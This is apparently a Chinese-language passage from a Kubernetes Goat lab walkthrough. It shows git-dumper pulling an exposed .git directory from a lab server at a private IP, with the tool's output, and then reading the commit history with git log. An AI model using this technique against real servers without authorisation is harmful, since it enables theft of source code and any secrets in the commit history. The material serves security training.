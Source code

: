 
使用`git-dumper`下载源码

```sh
$ git clone https://github.com/arthaud/git-dumper
```

```bash
$ cd git-dumper
$ python3 git_dumper.py http://192.168.32.130:1230/.git  k8s-goat-git
[-] Testing http://192.168.32.130:1230/.git/HEAD [200]
[-] Testing http://192.168.32.130:1230/.git/ [404]
[-] Fetching common files
[-] Fetching http://192.168.32.130:1230/.gitignore [404]
[-] http://192.168.32.130:1230/.gitignore responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/COMMIT_EDITMSG [200]
[-] Fetching http://192.168.32.130:1230/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-commit.sample [404]
[-] http://192.168.32.130:1230/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-receive.sample [404]
[-] Fetching http://192.168.32.130:1230/.git/hooks/post-update.sample [200]
[-] http://192.168.32.130:1230/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://192.168.32.130:1230/.git/hooks/pre-rebase.sample [200]
```

查看日志和以前的提交历史来验证 git 历史和信息

```sh
$ cd k8s-goat-git
$ git log
```

![image-20230203171234734](../../.gitbook/assets/image-20230203171234734.png)
